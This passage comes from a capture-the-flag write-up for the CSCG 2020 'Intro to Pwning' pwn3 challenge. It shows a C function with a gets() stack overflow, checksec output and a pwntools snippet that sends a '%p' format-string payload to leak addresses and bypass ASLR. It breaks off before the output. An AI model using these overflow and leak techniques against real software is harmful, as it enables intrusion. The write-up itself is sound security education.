 The last function `AAAAAAAA()` doesn't look much better:

```c
void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Gryffindor!\n");
        _exit(0);
    }
}
```

And also allows us to smash the stack for fun and profit. This function also
has a caveat though, namely that  we **must** pass the `strcmp()` as we cannot
afford the call to `_exit()` as this would terminate the program without ever
using our overwritten stack values.

## 3. Exploiting

### 3.1 Checking out the binary

Looking at the binary with checksec we can see that all security features are
enabled:

```
[*] '/home/managarmr/CTF/2020/CSCG/Pwn/Intro_To_Pwning/pwn3/pwn3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Meaning we have to somehow bypass `ASLR` and `stack canaries` in order to
somehow obtain a shell.

### 3.2 Bypassing ASLR

Remember the rogue `printf()`? We can use this to defeat `ASLR` by leaking an
address:

```python
target.sendline('%p ' * 50)
leak = target.recvline_contains('spell:').split(b' ')
for i in range(0, 50):
	log.info(f'{i + 1}: {leak[i]}')
```

Which returns the following output:
